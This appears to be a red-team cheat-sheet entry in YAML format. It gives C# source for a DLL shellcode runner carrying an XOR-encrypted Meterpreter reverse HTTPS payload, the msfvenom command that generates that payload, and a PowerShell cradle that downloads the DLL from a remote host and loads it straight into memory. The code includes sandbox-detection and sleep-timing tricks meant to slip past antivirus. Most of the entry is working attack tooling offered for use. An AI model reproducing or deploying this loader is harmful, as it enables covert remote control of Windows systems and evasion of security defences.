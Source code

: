 ```yaml
---
description: |
  Shellrunner in managed DLL, with the below code you can create a DLL that hold an meterpreter shell. Host this DLL on your webserver and retrieve it via the second part of the code, which makes sure the DLL is directly loaded into the memory of the Windows machine.

  Command Reference:

  	byte[] buf: msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f csharp --encrypt xor --encrypt-key a




command: |
    $data = (New-Object System.Net.WebClient).DownloadData('http://10.10.14.21/ShellcodeRunner.dll')

    $assem = [System.Reflection.Assembly]::Load($data)
    or (for local file)
    $assem = [System.Reflection.Assembly]::LoadFile("C:\user\documents\ClassLibrary1.dll")

    $class = $assem.GetType("ShellcodeRunner.Program")
    $method = $class.GetMethod("Run")
    $method.Invoke(0, $null)
    Or
    $a = [ShellcodeRunner.Program]::Run()
    ```

code: |
    using System;
    using System.Runtime.InteropServices;

    namespace ShellcodeRunner
    {
        public class Program
        {
            [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
            static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

            [DllImport("kernel32.dll")]
            static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

            [DllImport("kernel32.dll")]
            static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

            [DllImport("kernel32.dll")]
            static extern void Sleep(uint dwMilliseconds);

            [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
            static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);

            [DllImport("kernel32.dll")]
            static extern IntPtr GetCurrentProcess();

            public static void Run()
            {
                // Check if we're in a sandbox by calling a rare-emulated API
                if (VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0) == IntPtr.Zero)
                {
                    return;
                }

                // Sleep to evade in-memory scan + check if the emulator did not fast-forward through the sleep instruction
                var rand = new Random();
                uint dream = (uint)rand.Next(10000, 20000);
                double delta = dream / 1000 - 0.5;
                DateTime before = DateTime.Now;
                Sleep(dream);
                if (DateTime.Now.Subtract(before).TotalSeconds < delta)
                {
                    Console.WriteLine("Charles, get the rifle out. We're being fucked.");
                    return;
                }

                // msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f csharp --encrypt xor --encrypt-key a
                byte[] buf = new byte[657] {0x9d,0x29,0xe2, [...]
                                ,0x9e,0xb4};

                // XOR-decrypt the shellcode
                for (int i = 0; i < buf.Length; i++)
                {
                    buf[i] = (byte)(buf[i] ^ (byte)'a');
                }

                IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
                Marshal.Copy(buf, 0, addr, buf.Length);
                IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
                WaitForSingleObject(hThread, 0xFFFFFFFF);
            }
        }
    }


items:
    - Shell

services:
    - AV
OS:
    - Windows
attack_types:
    - Persistence
references:
    - https://ppn.snovvcrash.rocks/red-team/maldev/code-injection/shellcode-runners#c-dll-with-powershell-cradle-in-memory
--- 
```



